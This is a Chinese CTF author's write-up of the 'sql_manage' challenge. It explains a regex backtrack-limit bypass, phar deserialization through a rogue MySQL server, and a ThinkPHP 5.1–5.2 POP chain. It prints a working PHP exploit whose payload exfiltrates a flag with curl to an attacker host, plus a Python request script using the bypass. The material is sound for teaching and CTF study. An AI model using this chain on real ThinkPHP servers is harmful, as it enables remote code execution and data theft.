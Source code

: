 ### 前言
准备了好久的N1CTF终于结束了，师傅们都在很用心的出题和运维，然而还是出了不少事故，希望大佬们体谅一下orz!
膜@wonderkun师傅的非预期链（感觉大佬们都不想做我这道题，可能出的太烂了。）
这道题出题思路来自于[TSec 2019 议题 PPT：Comprehensive analysis of the mysql client attack chain](https://paper.seebug.org/998/)，但是核心还是tp5.2反序列化POP链挖掘(预期可以通杀5.1.x和5.2.x)。

### 正则回溯
这个点p牛在`codebreaking`已经出过题了，没想到还是难到了一大堆人。具体可以看p牛的文章
[https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html](https://www.leavesongs.com/PENETRATION/use-pcre-backtrack-limit-to-bypass-restrict.html)
题目的正则

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
    die('Go out!!!');
}
```
使用`select xx into/*1000000个a*/dumpfile;`即可绕过。

### Mysql Phar反序列化
很早之前@zsx师傅在文章[Phar与Stream Wrapper造成PHP RCE的深入挖掘](https://xz.aliyun.com/t/2958)中提到了本地mysql `LOAD DATA LOCAL INFILE`可以触发phar反序列化。
![image.png](./img/1.png)
这里提到了本地受限于这两个配置
```
[mysqld]
local-infile=1
secure_file_priv=""
```
但其实还受限于`open_basedir`
![image.png](./img/2.png)
这其实也就是用`Rogue Mysql Server`只能读到`/tmp/`目录下文件的原因。
另外mysql用户还需要拥有`insert`权限，否则会执行报错，因此在题目中直接直接执行`LOAD DATA LOCAL INFILE`去触发phar反序列化是不行的。

@LoRexxar'师傅在今年的Tsec上分享的议题[https://paper.seebug.org/998/](https://paper.seebug.org/998/)中提到了mysql客户端任意文件读取可以配合上面的trick来进行phar反序列化。因为其原理就是当`Mysql Client`向`Rogue Mysql Server`发送任意查询语句时，`Rogue Mysql Server`可以回复一个包含想要读取文件名的`file-transfer`请求，让`Mysql Client`执行`LOAD DATA LOCAL INFILE`语句把文件读取出来并发送给`Rogue Mysql Server`。此时我们把文件名格式改为`phar://filename`，让其执行`LOAD DATA LOCAL INFILE`语句即可触发phar反序列化。

ps:其实@zedd师傅在SUCTF出的题目`Upload Labs 2`中的预期解就是这个，他也发了文章[https://xz.aliyun.com/t/6057#toc-6](https://xz.aliyun.com/t/6057#toc-6)，当时我还想着跟我出的题撞了，没想到还是有很多人不知道,orz。

### TP5.1.x-5.2.x反序列化POP链分析
因为`Laravel`的反序列化链实在太多了，而thinkphp的基本没有人提到过，只有前段时间的一篇文章[挖掘暗藏ThinkPHP中的反序列利用链](https://blog.riskivy.com/挖掘暗藏thinkphp中的反序列利用链/?from=timeline&isappinstalled=0)，所以我就尝试挖了一下tp5.1的。
原本想的是挖一条全新的链，但是仔细看了下发现入口点只能找到文章中提到的那个地方，所以就想着利用这个入口再挖一条，最后挖到了一条可以通杀tp5.1.x-5.2.x的，因为tp5.1的文章中已经公开了思路，所以这里就拿tp5.2出了题。
首先是入口点
`think\process\pipes\windows`
![image.png](./img/3.png)

`file_exists`可以触发`__toString`方法

![image.png](./img/4.png)
全局搜索`__toString`方法，跟进`think\model\concern\Conversion`
![image.png](./img/5.png)
查看其`toJson`方法,继续跟进`toArray`方法。
![image.png](./img/6.png)

在这里文章用`$relation->visible($name);`来触发`Request`类的`__call`方法，但是tp5.2中这个方法被删掉了。
![image.png](./img/7.png)

我们来看一下`getAttr`方法
![image.png](./img/8.png)
![image.png](./img/9.png)
跟进`getValue`，漏洞点在这里。
![image.png](./img/10.png)
我们依次回溯下`$closure，$value，$this->data`
`$closure = $this->withAttr[$fieldName];`，`$this->withAttr`我们可控，看下`$fieldName = $this->getRealFieldName($name);`
跟进`getRealFieldName`
![image.png](./img/11.png)
`$strict`默认为true，所以传入的字符串会原样返回。
![image.png](./img/12.png)
传入的是`$name`，也是`getAttr`的参数`$key`，也是`$data`的键名。`$data`是`$this->data, $this->relation`合并的结果，因此`$closure`我们可控。
![image.png](./img/13.png)

再来看`$value`，跟进`getData`方法。
![image.png](./img/14.png)
如果`$this->data`存在`$fieldName`键名，则返回对应的键值，根据上面的分析我们刚好可以进入这个if中，而`$value`的返回值就是`$closure`对应的键值，因此`$value`我们也可控。
![image.png](./img/15.png)
回头看一下漏洞点，`$closure,$value`我们都可控，而`$this->data`是一个我们用来控制`$closure,$value`返回值的数组。
![image.png](./img/16.png)

此时我们可以怎么利用呢？
Example:
![image.png](./img/17.png)

其他的利用函数我并没有仔细去找，有兴趣的师傅可以找找看。

exp:
这个exp是我对着tp5.1的源码构造的可能和5.2有点不太一样，但是可以直接用。

```php
<?php
namespace think\process\pipes {
    class Windows
    {
        private $files;
        public function __construct($files)
        {
            $this->files = array($files);
        }
    }
}

namespace think\model\concern {
    trait Conversion
    {
        protected $append = array("Smi1e" => "1");
    }

    trait Attribute
    {
        private $data;
        private $withAttr = array("Smi1e" => "system");

        public function get($system)
        {
            $this->data = array("Smi1e" => "$system");
        }
    }
}
namespace think {
    abstract class Model
    {
        use model\concern\Attribute;
        use model\concern\Conversion;
    }
}

namespace think\model{
    use think\Model;
    class Pivot extends Model
    {
        public function __construct($system)
        {
            $this->get($system);
        }
    }
}

namespace {
    $Conver = new think\model\Pivot("curl http://vps/ -d '`tac /flag`';");
    $payload = new think\process\pipes\Windows($Conver);
    @unlink("phar.phar");
    $phar = new Phar("phar.phar"); //后缀名必须为phar
    $phar->startBuffering();
    $phar->setStub("GIF89a<?php __HALT_COMPILER(); ?>"); //设置stub
    $phar->setMetadata($payload); //将自定义的meta-data存入manifest
    $phar->addFromString("test.txt", "test"); //添加要压缩的文件
    //签名自动计算
    $phar->stopBuffering();
    echo urlencode(serialize($payload));
}
?>
```

### sql_manage
首先在源码的配置文件中找到mysql的用户名和密码
![image.png](./img/18.png)
查看可写目录
![image.png](./img/19.png)
构造phar文件，使用正则回溯绕过限制写文件

```php
if(preg_match('/sleep|BENCHMARK|processlist|GET_LOCK|information_schema|into.+?outfile|into.+?dumpfile|\/\*.*\*\//is', $query)) {
        die('Go out!!!');
 }
```

```python
#coding=utf-8
import requests
url = "http://47.91.213.248:8001/query"
a = 'a'*1000000
data = {
    "query": "select 0x123456 into/*{}*/dumpfile '/tmp/smi1e123.phar';".format(a),
    "code": "nuk9"
}
cookie = {
    "PHPSESSID":"ik01ngjcquttltalvf7vk6aqap"
}

print(requests.post(url=url,data=data,cookies=cookie).text)
```
`load_file`一下可以看到写入成功
![image.png](./img/20.png)
使用这个项目[https://github.com/Gifts/Rogue-MySql-Server](https://github.com/Gifts/Rogue-MySql-Server) 把文件名改为phar格式
![image.png](./img/21.png)
host改为`Rogue-MySql-Server`地址，用户名密码随意。 
![image.png](./img/22.png)
服务端nc，然后执行任意sql语句触发phar反序列化即可收到flag。
![image.png](./img/23.png)

### 后记
由于撞车ByteCTF和TMCTF，并没有很多师傅在刚这道题orz。出题时也踩了不少坑，emmm虽然这个题目出的很烂但是还是想说出题不易，希望师傅们认真对待。